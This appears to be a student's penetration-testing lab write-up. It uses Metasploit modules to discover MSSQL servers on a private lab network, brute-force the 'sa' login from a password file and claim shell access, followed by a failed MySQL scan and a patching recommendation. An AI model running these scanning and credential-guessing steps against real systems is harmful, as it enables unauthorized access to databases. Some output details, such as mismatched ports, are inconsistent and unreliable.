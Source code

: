# Documentation

## Lab 01: Attacking MS SQL Database

In this lab, we use Metasploit to target a MS SQL Database on our system using
`mssql_ping` and `MSSQL_Login`.

### MSSQL Ping

```
msf > use auxiliary/scanner/mssql/mssql_ping
msf auxiliary(mssql_ping) > set RHOSTS 192.168.2.0/24
RHOSTS => 192.168.2.0/24
msf auxiliary(mssql_ping) > set THREADS 8
THREADS => 8
msf auxiliary(mssql_ping) > run
[...]
[*] SQL Server Information for 192.168.2.82:
[+]    ServerName   = WIN-9M1V7QKJ2TF
[+]    ServerName   = WINDOWSSRVR2008
[+]    InstanceName = SQLEXPRESS
[+]    IsClustered  = No
[+]    Version      = 10.0.2531.0
[+]    tcp          = 49174
[+]    np           = \\WINDOWSSRVR2008\pipe\MSSQL$SQLEXPRESS\sql\query
[+]    InstanceName = SQLEXPRESS
[+]    IsClustered  = No
[+]    via          = WINDOWSSRVR2008,1433
[+]    Version      = 10.40.4000.0
[+]    tcp          = 1433
[...]
```

### MSSQL Login

```
msf > use auxiliary/scanner/mssql/mssql_login
msf auxiliary(mssql_login) > set PASS_FILE /root/password.txt
PASS_FILE => /root/password.txt
msf auxiliary(mssql_login) > set RHOSTS 192.168.2.82
RHOSTS => 192.168.2.82
msf auxiliary(mssql_login) > set THREADS 8
THREADS => 8
msf auxiliary(mssql_login) > set verbose false
verbose => false
msf auxiliary(mssql_login) > run
[...]
[+] 192.168.2.82:1422 - LOGIN SUCCESSFUL: WORKSTATION\sa:P@ssw0rd1234
[...]
```

We've now obtained the username and password for the mssql database on the
target. We run the `exploit` command followed by the `shell` command and then we
have full access to the system.

## Lab 02: Attacking MYSQL Database

We begin this exercise by scanning for MYSQL on all systems using the
`mysql_version` module

### MYSQL Version Scan

```
msf > use auxiliary/scanner/mysql/mysql_version
msf auxiliary(mysql_version) > set RHOSTS 192.168.2.83
RHOSTS => 192.168.2.83
msf auxiliary(mysql_version) > run

[*] 192.168.2.83:3306 is running MySQL, but responds with an error: \x04Host '192.168.2.86' is
not allowed to connect to this MySQL server
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

It appears as though the vulnerability we were attempting to exploit has been
fixed. So, because of this, I'm unable to complete this portion of the lab.

# Vulnerabilities

## Vulnerability 01

Use of outdated and vulnerable MSSQL software.

### Description

The target machine is running an outdated version of MSSQL which has a
vulnerability that allows attackers to gain priviledged access to the system
using known exploit modules.

### Risk

**Impact:** 1

**Probability:** 0.9

**Magnitude:** 90%

### Mitigation

The mitigation for this vulnerability is to simply update your MSSQL software to
a version that patches this vulnerability and keep it updated.

